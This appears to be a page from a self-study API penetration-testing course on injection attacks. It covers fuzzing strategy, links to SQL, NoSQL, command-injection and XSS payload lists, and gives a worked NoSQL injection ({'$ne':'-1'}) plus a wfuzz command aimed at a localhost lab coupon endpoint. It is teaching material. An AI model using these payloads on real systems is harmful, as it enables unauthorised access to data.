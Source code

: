 ```yaml
---
title: Injection attacks
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - api
---
```


# Injection Attacks

??? abstract "General index of the course"
    - [Setting up the environment](setting-up-kali.md)
    - [Api Reconnaissance](api-reconnaissance.md).
    - [Endpoint Analysis](endpoint-analysis.md).
    - [Scanning APIS](scanning-apis.md).
    - [API Authorization Attacks](api-authentication-attacks.md).
    - [Exploiting API Authorization](exploiting-api-authorization.md).
	- [Testing for Improper Assets Management](improper-assets-management.md).
    - [Mass Assignment](mass-assignment.md).
    - [Server side Request Forgery](server-side-request-forgery-ssrf.md).
    - [Injection Attacks](injection-attacks.md). 
    - [Evasion and Combining techniques](evasion-combining-techniques.md).
    - [Setting up the labs + Writeups](other-labs.md)

The art of fuzzing is knowing which payload to send in the right request with the right tool.

- Right payload can be narrow with reconnaissance.
- Right requests are those that include user input (+ headers + url paths)
- Right tool depends on strategy in fuzzing.

Yes, when fuzzing we need **a strategy**.

**1**. Identify endpoints (those where client input can interact with a database).

**2**. Fuzzing and analyzing responses.

**3**. Analyze responses:

	- Verbose error message
	- Response code
	- Time in response.

**4**. Identify technolofy, version, services behind, security controls.



## SQL injections

[More aboyut SQL injectios](../webexploitation/sql-injection.md). | [How to perform a manual attack in SQL](../sqli-manual-attack.md) |  [Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/SQL-injection.md) |  [Tools: SQLmap](../sqlmap.md)


## NOSQL injections

[Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/nosql-injection.md). 

API commonly use NOSQL databases due to the fact that they scale well.  These databases have unique structures, modes of querying... Requests will be alike but payloads may vary. 


## Operating System Command Injection

[Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/operating-system-command-injection.md)

Some common operatiing system commands that are used in Injection attacks: 

- ipconfig
- dir
- ver
- whoami
- ifconfig
- ls
- pwd
- whoami

Target:

- URL query string
- Requests parameters
- headers
- requests that throw verbose error messages 

Techniques:

- Pairing multiple commands in a single line.


## XSS  Cross-Site Scripting

[More about Cross-Site Scripting](../webexploitation/cross-site-scripting-xss.md) | [Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/cross-site-scripting-xss.md) 



## Using wfuff

Having this request:

```
POST /community/api/v2/coupon/validate-coupon HTTP/1.1
host: localhost:8888
accept: */*
origin: http://localhost:8888
referer: http://localhost:8888/shop
Connection: close
user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
content-type: application/json
Content-Length: 29
sec-fetch-dest: empty
sec-fetch-mode: cors
sec-fetch-site: same-origin
Accept-Encoding: gzip, deflate
accept-language: en-US,en;q=0.5
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJoYXBpaGFja2VyNTU1NUBoYXBpaGFjaGVyLmNvbSIsImlhdCI6MTY3NTY5NjY3NiwiZXhwIjoxNjc1NzgzMDc2fQ.2_B9Rh_kERjiz4J4c4kIRjktNJ3s4jXOPRCJrLlOJrXV5cC-SgYDF3BxcBDzDJTqZTNtS26-fnprUr9bdenAeg
Cache-Control: no-cache
Postman-Token: 5eb2f69b-6f89-460b-a49f-96c12edc9906

{"coupon_code":{"$ne":"-1"} }
```


And this response:

```
HTTP/1.1 200 OK
Server: openresty/1.17.8.2
Date: Mon, 06 Feb 2023 16:05:31 GMT
Content-Type: application/json
Connection: close
Access-Control-Allow-Headers: Accept, Content-Type, Content-Length, Accept-Encoding, X-CSRF-Token, Authorization
Access-Control-Allow-Methods: POST, GET, OPTIONS, PUT, DELETE
Access-Control-Allow-Origin: *
Content-Length: 79

{"coupon_code":"TRAC075","amount":"75","CreatedAt":"2022-11-11T19:22:26.134Z"}
```

We can use wfuzz like this:

```bash
wfuzz -z file,/usr/share/wordlists/nosql.txt -H "Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJoYXBpaGFja2VyNTU1NUBoYXBpaGFjaGVyLmNvbSIsImlhdCI6MTY3NTY5NjY3NiwiZXhwIjoxNjc1NzgzMDc2fQ.2_B9Rh_kERjiz4J4c4kIRjktNJ3s4jXOPRCJrLlOJrXV5cC-SgYDF3BxcBDzDJTqZTNtS26-fnprUr9bdenAeg" -H "Content-Type: application/json" -d "{\"coupon_code\":FUZZ}" --sc 200 -p localhost:8080 http://localhost:8888/community/api/v2/coupon/validate-coupon
# -p localhost:8080 Redirect traffic to BurpSuite
# --sc 200 Show code response 200
```

